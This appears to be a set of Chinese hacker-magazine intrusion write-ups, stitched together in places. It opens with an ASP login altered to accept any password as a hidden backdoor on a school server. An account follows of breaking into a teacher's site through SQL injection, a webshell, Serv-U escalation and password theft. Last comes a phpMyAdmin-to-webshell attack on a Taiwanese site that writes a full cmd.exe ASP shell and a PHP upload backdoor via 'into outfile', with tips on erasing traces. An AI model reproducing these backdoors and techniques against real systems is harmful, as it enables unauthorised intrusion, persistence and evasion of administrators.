pcanywherepwd 破解就可以了，很快密码和用户名就出来了！哈哈！可以用 pcAnywhere 连接了。到此，基本上就完工了。但由于学校的机房捆绑了限制，除了 web 方式，别的都用不了，所以我打算再放一个隐藏一点的 ASP 后门，以后可以用……

```asp
IF Request.Form.Count<>0 Then
  Name=Trim(Request.Form("Name"))
  Password=Trim(Request.Form("Password"))
  IF Name<>"" And Password<>"" Then
    SQL="Select * From 超级管理员 Where 帐号='" & Name & "'"
    Set RS=Server.CreateObject("ADODB.Recordset")
    RS.Open SQL,connstr,1,1
    IF Not RS.Eof Then
      IF md5(Password)=RS("UserPassword") Then
        Session("Administrator")=Name
        Response.Redirect "adminindex.asp"
      End IF
    End IF
  End IF
End IF
```

```asp
If Request.Form.Count<>0 Then
  Name=Trim(Request.Form("Name"))
  Password=Trim(Request.Form("Password"))
  IF Name<>"" And Password<>"" Then
    SQL="Select * From 超级管理员 Where 账号='"&Name&"'"
    Set RS=Server.CreateObject("ADODB.Recordset")
    RS.Open SQL, Connstr,1,1
    IF Not RS.Eof Then
      IF md5(Password)=RS("UserPassword") or md5(Password)<>RS("UserPassword") Then
        Session("Administrator")=Name
        Response.Redirect "adminindex.asp"
      End IF
    End IF
  End IF
End IF
```

改成：

- 1. 取个别人想不到的名字，比如将 `database.mdb` 改成随机命名的 `.mdb`。
- 2. 修改后缀名，一般可改成 `database.asp`、`database.asa`、`database.inc`、`database.dll` 等，并在 IIS 中设置可解析。
- 3. 在数据库名中加入 `#` 或空格（空格不放首位）等方式，增加被直接下载的难度。

那么下面我说一下我对数据库安全的看法。数据库的安全主要是不被别人下载，所以可以通过命名和后缀处理来提高安全性。除此之外，也可通过重定向等方法保护 `conn.asp` 等关键文件，避免他人直接访问数据库路径。总体来说，这些方法能提升安全性，但并非绝对安全。

因为我们有了数据库，所以用户名是知道的，这样的话以后我们随时可以进去。因为那样改过以后密码是无所谓的……（段落为对代码绕过思路与实践结果的说明）

## 一切都如同是有趣的积累性过程

高二的时候，我很想给我们这一届的同学做一个校友录，并且放在学校的服务器上……（叙述搭建网站动机与早期经历）

木头瓶子



# 一、踩点

在我和他的那次谈话中，他说：他用的是正版 Win2000 并且经常打补丁……（描述目标环境、历史入侵方式、论坛与站点结构等）

## 二、都说的开始

因为现在住校，还在别的城市，所以各种工具都没有带。偶尔去找机房才有机会上网……（描述从自动工具失败到手动查找注入点的过程）



图1

这些其实都是很典型的注入点……（右栏续写，提及 MSSQL 注入尝试与后续进展）

# 一个人的战争

找登录后台！怎么可能？周末上网问他才知道，网站是动网的 asp+access，他使用 nbsi2 找到了账户和密码，并且用默认路径成功找到了后台……

## 三、再次的郁闷

现在进入后台了，就该拿 webshell 了。看到图片上传，于是开始测试。先上传 asp 文件，提示“非法文件，重新上传”，后来尝试各种绕过与上传路径猜测，仍然反复失败……


hoper 再次给我希望。那时我在玩 QQ 游戏，收到消息“快上来，拿到 webshell 了！”上去一看，果然是真的（图3）……



问他是怎么搞的，他说用某上传利用程序，后来把网址前面的 www 去掉后才访问到后台，估计是目录访问设置问题。

## 四、第三次的郁闷

有 webshell 了，就方便多了。尝试提权：查找系统密码文件、查看 C 盘、寻找可利用服务。发现 Serv-U 版本较老，在配置文件里看到版本信息“Version=4.1.0.3”（图4）。



明文存放用户密码！用下载的溢出程序溢出，结果都失败。怀疑是防火墙或权限问题，虽然有 Serv-U 但仍不能提升权限。

## 五、郁闷的曙光

继续翻硬盘，用 query user 查看系统情况，发现管理员在线。将消息发给 hoper，同时说出了“findpass”，准备上传工具尝试获取密码。



等待后拿到了密码。因为开启了终端服务，可以用 3389 登录。出于安全考虑，先装后门，再通过 webshell 上传执行，期间又遇到权限与执行进程问题，最后通过修改 Serv-U 配置并连接验证成功（图6）。



“老师！我回来了！”基本达到目的，准备收工。最后清理上传工具，避免被发现。

## 六、后记

安全是一个整体，不仅是网站、系统、防火墙，还有使用者自身的意识。若能堵住常见漏洞，网络安全会更好。文末提到的工具包括 hxde100、nc、upfile、WSockExpert 等。

# 一个人的战争



XaCk3r



图 1

管理员建立了一个用户给自己的 web 程序使用，而留下 root 并没有进行清理或者限制，ALL PRIVILEGES 所有权限。这样一来，我们就可以建立一个 mysql 管理员了，结果在预料之中，并没有权限不够的出错提示，成功建立 Mysql 管理员账号。有关操作 PhpMyAdmin 并非此文的要点，这里不再多说。

呵呵，有了管理员账号，我们就可以做很多事情了，当然目的只有一个，取得服务器权限……我们建立的用户进行连接，记得牛开发过一个 SuperMysql（mysql 数据库连接程序），我们无需本地安装 mysql 或者其他的数据库软件，SuperMysql 已足够让我们执行命令和查看数据库内容……界面如图 2。

此篇文章是在一次入侵后的总结，拿到台湾的一个 web 站点做测试，开篇进入正题吧！开始拿到 web 地址时，Ping 操作，接着就是调出 X-scan 扫描，目标主机只开放了 21、80、3306、8080 端口，并且无报任何漏洞。操作系统为 windows 2003，明显是用了 IIS 服务器。分别 telnet 服务的端口为确定 banner，目标主机使用了 IIS、Serv-U FTPv5.2、MYSQL4.0.21-nt，新版本，还没有发现漏洞，溢出不太可能。

# 入侵分析

我们先分析一下它的 web 程序，采用 php+mysql，另外还架设了一个 asp 论坛，整站程序并没有多用户绑架，而是采用了管理员后台增加删除等操作，而 asp 论坛提供上传功能。目前只有从注射和上传欺骗入手了。

先尝试 www.target.com.tw/admin，管理员后台登录界面并没有删除，不过在我随意输入 admin 之后却出现了“找不到页面”，显然后台登录的地方已经被管理员修改过……不过程序左边却有快捷管理导航栏……因为管理员并没有完全处理 php 后台文件，导致调用的时候出错。

```text
Fatal error: Cannot instantiate non-existent class: htmltemplate in D:\www\target\bussiness\admin\xMoney\Money_News_List.php on line 20
```

可以说是我们无意中暴出的 WEB 路径，至少在写一些文件的时候，我们会少走一点弯路。接着我们对 bbs 进行文件上传漏洞测试，上传，抓包，欺骗伪装，再进行上传，结果代码限制，上传未遂！

原以为到此结束的，可是目标机器的 8080 端口引起了我的注意，进入“www.target.com.tw:8080”，出现的是“欢迎使用 phpMyAdmin 2.6.0-rc1”……我们可以看出配置为较弱认证，最终可用本地 root 连接并查看权限，如图 1 所示。



图 2

我们打开“mysql”这个数据库，可以看到数据库管理员的密码，不过是加密过的……破解后得到密码，随后尝试用 super.mysql 以 root 连接时却失败，最终回到 PhpMyAdmin 才明白 root 只能本地连接（主机为 localhost），而另一用户则是“任何主机”（% 通配符），这是不安全之处。

接下来通过 mysql 数据库 Backup_MysqlDataWebShell，远程 SuperHei 写过一个 autogetwebshell（PHP 语言程序）……依次填写 SQL 地址、库名、用户名密码、代码及 Web 目录，点击提交后并未成功导出……可能与字符转换或代码兼容有关。

继续。同样在 mysql 中也存在此类问题。我们以《通过 mysql 入侵 NT 和 win2000》一文参考，通过 sql 语句把脚本插入到数据库，再把脚本导出到目标主机的 web 目录，详细代码请参看原文，输入命令如图 3。



如果执行成功将会返回到“mysql\bin”目录下。如果目标主机存在此类格式或者 cmd2.php 存在，脚本将失效。

从浏览器中，虽然我们已经得到了 Guest 权限的 shell，但是通过这个 shell 脚本却不能写东西。于是构造一个 sql 文件，拉出简易的 asp 后门。

```asp
use target;
create table XaCk3r (cmd TEXT);
insert into XaCk3r values('<%@ Language=VBScript %> ...');
<%
Dim oScript
Dim oScriptNet
Dim oFileSys, oFile
Dim szCMD, szTempFile
On Error Resume Next
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
szCMD = Request.Form("CMD")
If (szCMD <> "") Then
  szTempFile = "C:\" & oFileSys.GetTempName()
  Call oScript.Run("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
  Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0)
End If
%>
<HTML><BODY>
<FORM method="POST">
<input type=text name="CMD" size=45>
<input type=submit value="Run">
</FORM>
<PRE>
<%
If (IsObject(oFile)) Then
  Response.Write Server.HTMLEncode(oFile.ReadAll)
  oFile.Close
  Call oFileSys.DeleteFile(szTempFile, True)
End If
%>
...
</BODY>
</HTML>

select * from XaCk3r into outfile 'd:\www\target\XaCk3r.asp';
```

然后转回到 mysql 目录，输入命令：mysql -h IP -u username -p < XaCk3r.sql，命令执行成功并返回到 mysql 目录下。然后访问 http://www.target.com/XaCk3r.asp，却执行错误。



原来书写有点问题，代码写入时被格式破坏，在写入 asp 文件时每一行前增加了反斜杠，导致代码不能正确执行。于是重新调整插入语句格式。

```sql
use target;
create table XaCk3r (cmd TEXT);
```

而 asp 后门也不再逐行输入。使用工具生成后继续写入，随后再执行插入语句。

```sql
insert into XaCk3r values('<%@ Language=VBScript %>');
????????????????????
insert into XaCk3r values('</HTML>');
```

接着提示发送成功，但访问页面仍出现“找不到该页面”等信息。怀疑导出步骤仍有问题，于是回到 mysql 环境，尝试在 sql 文件末尾只写两条语句后另存为 sql 文件。

```sql
use target;
select * from XaCk3r into outfile 'd:\www\target\XaCk3r.asp';
```



接着回到 mysql 环境下，输入 mysql -h XXX.XXX.XXX.XXX -u username -p <XaCk3r.sql，再访问目标地址……返回结果仍然是“找不到这个页面”，于是尝试改用 Php 后门，继续连接 Supermysql 并调整语句转义方式。

```php
<?php
$msg = copy($_FILES[MyFile][tmp_name], $_FILES[MyFile][name]) ? "Successful" : "failure";
echo $msg;
?>
<form ENCTYPE="multipart/form-data" ACTION="" METHOD="POST">
  <input NAME="MyFile" TYPE="file">
  <input VALUE="Up" TYPE="submit">
</form>
```

写入很顺利，访问 http://www.target.com.tw/XaCk3r.php，页面出现上传结果提示，如图5。



这回后门可上传任意文件，也可上传更强的 php 后门。随后讨论 mysql 语句中引号与反斜杠转义规则，并给出在 cmd 环境下执行 mysql 导入脚本的方式。

```sql
use target;
create ... XaCk3r ... cmd='EXE';
-- 处理创建 XaCk3r 的表格、cmd 字段文本数据
```

```php
insert into XaCk3r values(...);
$msg = copy($_FILES[MyFile][tmp_name], $_FILES[MyFile][name]) ? "Successful" : "failure";
echo $msg;
<form ENCTYPE="multipart/form-data" ACTION="" METHOD="POST"> ... </form>
select * from XaCk3r;
drop table XaCk3r;
```

上面的一些操作并未在实战中全部执行，导出后最好删除相关表，以免被管理员发现。继续访问 XaCk3r.php 后出现代码警告，如图6。

```text
Warning: Unexpected character in input: '\\' (ASCII=92) ... on line 1
```



测试发现该警告并不影响 php 上传后门功能，仍可正常上传。接着可进一步上传 asp 后门，或搜索系统目录中的程序与安全软件信息。

